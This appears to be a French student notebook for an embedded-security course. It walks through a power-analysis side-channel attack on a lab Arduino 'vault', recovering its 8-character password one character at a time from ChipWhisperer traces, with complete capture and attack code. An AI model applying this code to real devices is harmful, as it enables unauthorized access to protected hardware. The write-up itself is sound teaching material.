# Attack the Vault : attaque par analyse de consommation (SPA)

**Projet Embedded Security, Ibrahim Amghar**

Ce notebook documente l'attaque Simple Power Analysis (SPA) menée sur le coffre (Arduino Uno) avec la ChipWhisperer Nano. Le but : retrouver le mot de passe de 8 caractères sans le connaître à l'avance, juste en observant la consommation électrique de la cible pendant la vérification.

### Principe de la fuite

La vérification compare les caractères un par un et s'arrête au premier caractère faux (comme un `strcmp`). Du coup, un caractère juste fait faire à la boucle une itération de plus, et cette itération en plus se voit sur la trace de consommation.

Toute l'attaque part de là : on exploite cette différence, caractère par caractère.

## 1. Connexion et fonctions de capture

On se connecte au scope (ChipWhisperer) et à la cible (Arduino), puis on définit deux fonctions de base :

* `capturer_une_trace` envoie un essai de mot de passe et récupère une trace de consommation ;
* `capturer_moyenne` répète la capture plusieurs fois et en fait la moyenne, pour lisser le bruit.

On interroge la cible sur son entrée cachée (broches D10/D11, SoftwareSerial à 9600 bauds), celle qui demande vraiment le mot de passe.

In [1]:
import chipwhisperer as cw
import time

# on se connecte au scope (la ChipWhisperer) et a la cible (l'Arduino)
scope = cw.scope()
scope.default_setup()
scope.adc.samples = 3000          # nombre de points par trace

target = cw.target(scope, cw.targets.SimpleSerial2)
target.baud = 9600                # debit de l'entree cachee (D10/D11)

print("Connecte au coffre.")

(ChipWhisperer Other WARNING|File __init__.py:69) ChipWhisperer update available! See https://chipwhisperer.readthedocs.io/en/latest/installing.html for updating instructions


Connecte au coffre.


In [2]:
def capturer_une_trace(essai):
    # 1) on vide ce qui traine dans le buffer serie
    restant = target.in_waiting()
    while restant > 0:
        target.read(restant, 10)
        time.sleep(0.01)
        restant = target.in_waiting()

    # 2) on arme le scope, on envoie l'essai, on capture
    scope.arm()
    target.write(essai)
    timeout = scope.capture()
    if timeout:
        print("Timeout : le trigger ne s'est pas declenche")

    # 3) on recupere la trace et on lit la reponse du coffre
    trace = scope.get_last_trace()
    target.read(300, 10)
    return trace

In [3]:
def capturer_moyenne(essai, nombre):
    # on capture "nombre" fois le meme essai et on fait la moyenne
    total = capturer_une_trace(essai)
    for i in range(nombre - 1):
        time.sleep(0.01)          # petite pause pour ne pas saturer l'USB
        total = total + capturer_une_trace(essai)
    moyenne = total / nombre
    return moyenne

À l'exécution, la cellule de connexion doit afficher `Connecte au coffre.`, et aucune capture ne doit déclencher de *Timeout*. Un timeout voudrait dire que le trigger (broche D13) n'arrive pas au scope.

## 2. Lecture d'une trace et observation de la fuite

### 2.1 Les grandes zones d'une trace

Avant de comparer quoi que ce soit, on regarde une trace seule pour situer ce qui s'y
passe : le déclenchement du trigger, la réception du caractère, puis la boucle de
comparaison (la zone où se trouve la fuite).




In [4]:
import matplotlib.pyplot as plt

# une seule trace moyennee, pour situer les grandes zones
trace = capturer_moyenne("f\n", 20)

plt.figure(figsize=(12, 4))
plt.plot(trace[:200])

# repere du declenchement
plt.axvline(0, color="green", linestyle="--")
plt.text(3, trace[:200].max(), "declenchement du trigger", color="green")

# zone de reception / chargement du caractere
plt.axvspan(0, 120, color="gray", alpha=0.10)
plt.text(35, trace[:200].min(), "reception / chargement", color="gray")

# zone de comparaison = zone de fuite
plt.axvspan(120, 132, color="orange", alpha=0.25)
plt.text(134, trace[:200].min(), "boucle de comparaison", color="orange")

plt.title("Trace de consommation annotee : les grandes zones")
plt.xlabel("echantillon")
plt.ylabel("consommation (normalisee)")
plt.show()


Après le trigger (trait vert), la trace montre d'abord la réception du caractère, puis la zone de comparaison (en orange) où se trouve la fuite.

### 2.2 La fuite est visible à l'œil nu

On compare maintenant la trace d'un bon premier caractère (`f`) et d'un mauvais (`a`).



In [7]:
import matplotlib.pyplot as plt

bon  = capturer_moyenne("f\n", 20)
faux = capturer_moyenne("a\n", 20)

plt.figure(figsize=(12, 4))
plt.plot(bon[:160],  label="'f' (bon 1er caractere)")
plt.plot(faux[:160], label="'a' (faux)")
plt.axvspan(120, 132, color="orange", alpha=0.2, label="fenetre de fuite")
plt.title("Fuite SPA : le bon caractere fait une iteration de boucle en plus")
plt.xlabel("echantillon")
plt.ylabel("consommation (normalisee)")
plt.legend()
plt.show()

Les deux traces se suivent au début, puis divergent vers l'échantillon 128 (zone orange). Le bon caractère (`f`) ajoute le motif de l'itération de boucle en plus ; le mauvais (`a`) décroche avant. En gros, c'est déjà toute l'attaque.



In [6]:
plt.figure(figsize=(12, 4))
plt.plot(capturer_moyenne("f\n", 20)[:160], label="'f' (bon)", linewidth=2)
for c in ["a", "4", "z", "Q"]:
    plt.plot(capturer_moyenne(c + "\n", 20)[:160], alpha=0.6, label=f"'{c}' (faux)")
plt.axvspan(120, 132, color="orange", alpha=0.15)
plt.title("Le bon caractere se detache ; les faux se comportent pareil")
plt.xlabel("echantillon")
plt.legend()
plt.show()

En superposant `f` avec plusieurs mauvais caractères (`a`, `4`, `z`, `Q`), les faux se comportent tous pareil (ils forment un paquet) alors que `f` se détache dans la fenêtre de fuite. C'est ce constat qui justifie la méthode automatique de la section suivante.

## 3. Méthode automatique : la moyenne des 94 caractères

L'idée est simple : on teste les 94 caractères imprimables (ASCII 33 à 126). Sur ces 94, un seul est correct. Si on fait la moyenne des 94 traces, les 93 mauvais l'emportent largement, donc cette moyenne représente le comportement « faux » de référence, sans avoir à choisir une référence à la main.

On compare ensuite chaque caractère à cette moyenne, dans la fenêtre de fuite :

* les 93 faux collent à la moyenne (petit écart) ;
* le bon caractère s'en écarte le plus.

Le gagnant est celui qui a le plus grand écart. C'est ce que fait la fonction `tester_position`.

In [4]:
import numpy as np

# tous les caracteres imprimables (ASCII 33 a 126)
candidats = [chr(code) for code in range(33, 127)]

def tester_position(connus, debut, fin, nombre):
    # connus = le debut du mot de passe deja trouve (ex: "f7")
    # debut, fin = la fenetre ou regarder la fuite
    # nombre = combien de moyennes par caractere

    # 1) une trace moyennee par caractere candidat
    traces = {}
    for c in candidats:
        essai = connus + c + "\n"
        traces[c] = capturer_moyenne(essai, nombre)

    # 2) la trace moyenne de TOUS les caracteres = le comportement "faux"
    liste = []
    for c in candidats:
        liste.append(traces[c])
    toutes = np.array(liste)
    moyenne = toutes.mean(axis=0)

    # 3) pour chaque caractere, on mesure l'ecart a la moyenne dans la fenetre
    scores = {}
    for c in candidats:
        difference = np.abs(traces[c][debut:fin] - moyenne[debut:fin])
        scores[c] = np.sum(difference)

    # 4) on classe du plus gros ecart au plus petit
    classement = sorted(scores, key=scores.get, reverse=True)
    return classement, scores

On visualise la référence et l'écart du bon caractère. La cellule ci-dessous recalcule
les traces des 94 candidats pour la position 0 (variables `traces` et `moyenne`).




In [8]:
import numpy as np

# on recalcule traces + moyenne pour la position 0 (pour la figure)
traces = {c: capturer_moyenne(c + "\n", 20) for c in candidats}
moyenne = np.array([traces[c] for c in candidats]).mean(axis=0)

fig, (ax1, ax2) = plt.subplots(1, 2, figsize=(14, 4))

ax1.plot(moyenne[:160])
ax1.axvspan(120, 132, color="orange", alpha=0.2)
ax1.set_title("Trace moyenne des 94 caracteres\n(= comportement 'faux' de reference)")
ax1.set_xlabel("echantillon")

ax2.plot(traces["f"][:160] - moyenne[:160], label="'f' - moyenne", linewidth=2)
ax2.plot(traces["a"][:160] - moyenne[:160], label="'a' - moyenne", alpha=0.6)
ax2.axhline(0, color="gray", linewidth=0.8)
ax2.axvspan(120, 132, color="orange", alpha=0.2)
ax2.set_title("Ecart a la moyenne : le bon caractere decolle")
ax2.set_xlabel("echantillon")
ax2.legend()
plt.show()

Les deux panneaux se lisent ensemble :

* à gauche, la trace moyenne des 94 caractères (le comportement « faux ») ;
* à droite, l'écart à cette moyenne : le bon caractère (`f`) décolle nettement dans la fenêtre, alors qu'un faux (`a`) reste plat autour de zéro.



In [9]:
classement, scores = tester_position("", 120, 132, 25)

# scores dans l'ordre alphabetique des candidats, gagnant en rouge
valeurs = [scores[c] for c in candidats]
couleurs = ["red" if c == classement[0] else "steelblue" for c in candidats]

plt.figure(figsize=(14, 4))
plt.bar(range(len(candidats)), valeurs, color=couleurs)
plt.xticks(range(len(candidats)), candidats, fontsize=6)
plt.title(f"Score des 94 candidats (position 0) : gagnant : '{classement[0]}'")
plt.ylabel("ecart a la moyenne")
plt.show()

Le graphique donne le score (écart à la moyenne) des 94 candidats. Une seule barre rouge, le gagnant, dépasse nettement les autres, qui restent toutes au ras. C'est la signature d'une récupération fiable.

### Vue d'ensemble : toute la fuite sur une seule carte

Les figures précédentes ne montraient que quelques caractères à la fois. Ici on met les 94 candidats sur une seule carte : une ligne par caractère testé (axe vertical, code ASCII), une colonne par échantillon (axe horizontal), et la couleur donne l'écart à la moyenne. Pour qu'il y ait fuite, il faut que ça ressorte à un endroit précis dans le temps (la fenêtre de comparaison) ET sur un seul caractère. Les pointillés blancs marquent la fenêtre de fuite (échantillons 120 à 132) et la ligne rouge le bon caractère `f`.



In [5]:
# Carte 2D : ecart a la moyenne, candidat x echantillon (position 0)
import numpy as np
import matplotlib.pyplot as plt

NB = 25   # meme moyennage que l'attaque

# une trace moyennee par candidat (position 0 : juste le caractere + "\n")
traces = {c: capturer_moyenne(c + "\n", NB) for c in candidats}
moyenne = np.array([traces[c] for c in candidats]).mean(axis=0)

# matrice des ecarts : une ligne par candidat, une colonne par echantillon
ecart = np.abs(np.array([traces[c] for c in candidats]) - moyenne)

plt.figure(figsize=(12, 7))
plt.imshow(ecart[:, :200], aspect="auto", origin="lower",
           extent=[0, 200, 33, 127], cmap="viridis")
plt.colorbar(label="ecart a la moyenne")
plt.xlabel("echantillon")
plt.ylabel("caractere teste (code ASCII)")
plt.title("Ecart a la moyenne par candidat et par echantillon (position 0)")

# reperes : la fenetre de fuite et la ligne du bon caractere
plt.axvline(120, color="white", lw=0.8, ls=":")
plt.axvline(132, color="white", lw=0.8, ls=":")
plt.axhline(ord("f"), color="red", lw=1, ls="--")
plt.text(198, ord("f") + 2, "f (bon)", color="red", ha="right")

plt.tight_layout()
plt.savefig("fig_heatmap_pos0.png", dpi=150, bbox_inches="tight")
plt.show()

La carte est sombre presque partout : la plupart des candidats, à presque tous les échantillons, collent à la moyenne. Un seul point vif ressort, pile à l'intersection de la ligne du bon caractère `f` (code ASCII 102) et de la fenêtre de comparaison (échantillons 120 à 132). La fuite est donc localisée à la fois dans le temps (le moment de la comparaison) et sur un seul caractère. Partout ailleurs la trace n'apporte rien, ce qui confirme qu'il suffit de scorer dans cette petite fenêtre pour trouver le caractère.

## 4. La fenêtre de fuite glisse avec la position

Pour la position suivante, on préfixe le mot de passe déjà trouvé (`"f" + c`, puis `"f7" + c`, etc.). Comme il y a un caractère correct de plus, la comparaison fait une itération de plus avant de diverger, donc la fuite apparaît plus tard dans la trace. La fenêtre `debut/fin` doit donc se décaler vers la droite à chaque position, ce que fait le terme `+ 7 * position` dans la boucle.



In [10]:
import matplotlib.pyplot as plt

# pour chaque position : (prefixe connu, bon caractere, faux caractere)
etapes = [
    ("",      "f", "a"),
    ("f",     "7", "a"),
    ("f7",    "-", "a"),
    ("f7-",   "@", "a"),
    ("f7-@",  "J", "a"),
]

fig, axes = plt.subplots(len(etapes), 1, figsize=(12, 2.2 * len(etapes)), sharex=True)

for i, (prefixe, bon_c, faux_c) in enumerate(etapes):
    bon  = capturer_moyenne(prefixe + bon_c  + "\n", 15)
    faux = capturer_moyenne(prefixe + faux_c + "\n", 15)

    debut = 120 + 7 * i          # la fenetre theorique pour cette position
    fin = debut + 12

    axes[i].plot(bon[:200],  label="bon")
    axes[i].plot(faux[:200], label="faux", alpha=0.7)
    axes[i].axvspan(debut, fin, color="orange", alpha=0.2)
    axes[i].set_ylabel(f"pos {i}\n({bon_c})")
    if i == 0:
        axes[i].legend(loc="upper right")

axes[-1].set_xlabel("echantillon")
fig.suptitle("La fenetre de fuite glisse vers la droite a chaque caractere connu")
plt.tight_layout()
plt.show()

Pour chaque position (0, 1, 2, etc.), la divergence entre le bon et le faux (la zone orange) se décale vers la droite. La fenêtre glissante suit bien ce décalage.



Pas moyen par position : 6.0 echantillons


In [13]:
import numpy as np

centres = []
for i, (prefixe, bon_c, faux_c) in enumerate(etapes):
    bon  = capturer_moyenne(prefixe + bon_c  + "\n", 15)
    faux = capturer_moyenne(prefixe + faux_c + "\n", 15)
    difference = np.abs(bon - faux)
    # on cherche le pic de divergence dans une zone large
    centre = np.argmax(difference[110:180]) + 110
    centres.append(centre)

plt.figure(figsize=(8, 4))
plt.plot(range(len(centres)), centres, "o-")
plt.xlabel("position du caractere")
plt.ylabel("echantillon de la divergence")
plt.title("Le centre de la fuite avance lineairement avec la position")
plt.show()

# la pente = le pas reel
pente = (centres[-1] - centres[0]) / (len(centres) - 1)
print("Pas moyen par position :", round(pente, 1), "echantillons")

Le centre de la divergence avance linéairement avec la position. La pente de la droite donne le pas réel mesuré, environ 6 échantillons par caractère. Le choix de `7` dans la boucle se tient : un peu au-dessus du pas réel, avec une fenêtre de 12 points assez large pour absorber la petite dérive cumulée sur les 8 positions.

## 5. Pourquoi le moyennage est critique

La fuite est réelle mais faible : une itération de boucle, c'est peu d'énergie. Si le bruit qui reste après moyennage est du même ordre que la fuite, le bon caractère et un faux « chanceux » se retrouvent au coude à coude. Le nombre de moyennes `nb` est donc un paramètre déterminant.



In [14]:
import matplotlib.pyplot as plt

valeurs_nb = [2, 5, 10, 20, 40]
marges_nb = []
for nb in valeurs_nb:
    classement, scores = tester_position("", 120, 132, nb)
    marges_nb.append(scores[classement[0]] / scores[classement[1]])

plt.figure(figsize=(8, 4))
plt.plot(valeurs_nb, marges_nb, "o-")
plt.axhline(1.3, color="red", linestyle="--", label="seuil fiabilite")
plt.xlabel("nombre de moyennes (nb)")
plt.ylabel("marge de confiance")
plt.title("Plus on moyenne, plus la fuite ressort du bruit")
plt.legend()
plt.show()

La marge de confiance (écart entre le 1er et le 2e score) augmente avec le moyennage puis plafonne. À `nb` faible on est à la limite du bruit ; à partir de 20-25, la fuite ressort franchement. D'où le choix de `nombre = 25` pour l'attaque : assez pour être fiable, sans être inutilement lent.

## 6. L'attaque complète

On enchaîne les 8 positions : à chaque étape on trouve le caractère, on l'ajoute au mot de passe, on décale la fenêtre et on recommence. La marge affichée à chaque position sert de contrôle : si elle est trop faible, c'est que la fenêtre est à recaler ou que `nombre` est trop bas.

Cette cellule relance une capture complète pour chaque position, donc elle est longue : c'est le cœur de l'attaque.

position 0 : 'f' - marge x 3.3
position 1 : '7' - marge x 2.5
position 2 : '-' - marge x 3.2
position 3 : '@' - marge x 3.3
position 4 : 'J' - marge x 2.4
position 5 : 'p' - marge x 2.0
position 6 : '0' - marge x 2.6
position 7 : 'w' - marge x 7.9
Mot de passe : 'f7-@Jp0w'




In [8]:
mot_de_passe = ""
nombre = 25
marges = []

while len(mot_de_passe) < 8:
    position = len(mot_de_passe)
    debut = 120 + 7 * position
    fin = debut + 12
    classement, scores = tester_position(mot_de_passe, debut, fin, nombre)
    gagnant = classement[0]
    marge = scores[classement[0]] / scores[classement[1]]
    marges.append(marge)
    print("position", position, ":", repr(gagnant), "- marge x", round(marge, 1))
    mot_de_passe = mot_de_passe + gagnant

print("Mot de passe :", repr(mot_de_passe))

# la figure
plt.figure(figsize=(10, 4))
plt.bar(range(8), marges, color="steelblue")
plt.axhline(1.3, color="red", linestyle="--", label="seuil de fiabilite (x1.3)")
plt.xticks(range(8), list(mot_de_passe))
plt.title("Marge de confiance par position (1er score / 2e score)")
plt.xlabel("caractere trouve")
plt.ylabel("marge")
plt.legend()
plt.show()

On doit obtenir `f7-@Jp0w`, avec toutes les marges au-dessus du seuil de fiabilité (barres bien au-dessus de la ligne rouge). La marge grimpe vers la fin, ce qui est logique : plus on a de caractères connus en préfixe, plus la fuite du dernier caractère est isolée et nette.

## 7. Preuve d'entrée

On envoie le mot de passe récupéré et on lit la réponse du coffre. Le `ACCESS GRANTED` (suivi du salt et du hash) est la preuve que l'attaque SPA seule a suffi à ouvrir le coffre.

In [9]:
# vider le buffer serie pour ne pas melanger avec les reponses precedentes
restant = target.in_waiting()
while restant > 0:
    target.read(restant, 10)
    time.sleep(0.01)
    restant = target.in_waiting()

# envoyer le mot de passe trouve et lire la reponse complete
scope.arm()
target.write("f7-@Jp0w\n")
scope.capture()
time.sleep(0.2)
print(target.read(400, 50))

>> ACCESS GRANTED: running protected section
Here is your salt: 365B7447
Here is your hash: 443FA3F251168F3E8CE4B3B651C82224803D21C2187547CD22C317D0962D6FFB

Enter password:



In [1]:
import hashlib

# keyphrase trouvee en clair dans la .data du firmware (avr-objdump -s -j .data)
keyphrase = "Je suis une petite tortue"

# salt et hash releves sur une session (ici la capture de la cellule precedente)
salt_hex = "365B7447"
hash_coffre = "443FA3F251168F3E8CE4B3B651C82224803D21C2187547CD22C317D0962D6FFB"

# le coffre calcule SHA3-256( salt_brut + keyphrase )
salt_brut = bytes.fromhex(salt_hex)
hash_recalcule = hashlib.sha3_256(salt_brut + keyphrase.encode()).hexdigest().upper()

print("keyphrase      :", keyphrase)
print("hash du coffre :", hash_coffre)
print("hash recalcule :", hash_recalcule)
print("=> identique :", hash_recalcule == hash_coffre)

keyphrase      : Je suis une petite tortue
hash du coffre : 443FA3F251168F3E8CE4B3B651C82224803D21C2187547CD22C317D0962D6FFB
hash recalcule : 443FA3F251168F3E8CE4B3B651C82224803D21C2187547CD22C317D0962D6FFB
=> identique : True


## Conclusion

Le mot de passe `f7-@Jp0w` a été récupéré par analyse de consommation (SPA) uniquement, sans le connaître à l'avance, puis validé par le `ACCESS GRANTED`.

Ce que je retiens :

* la fuite SPA est réelle mais faible : la récupération dépend directement du moyennage (marge ~x1.0 à la limite contre x3 à x4 quand ça marche) et du bon calage de la fenêtre ;
* la fenêtre de fuite glisse d'environ 6 à 7 échantillons par caractère (une itération de comparaison de plus à chaque caractère connu) ;
* côté matériel, les erreurs USB (`LIBUSB_ERROR_PIPE`) venaient d'un hub USB : en branchant la Nano directement sur le PC, les captures sont devenues stables.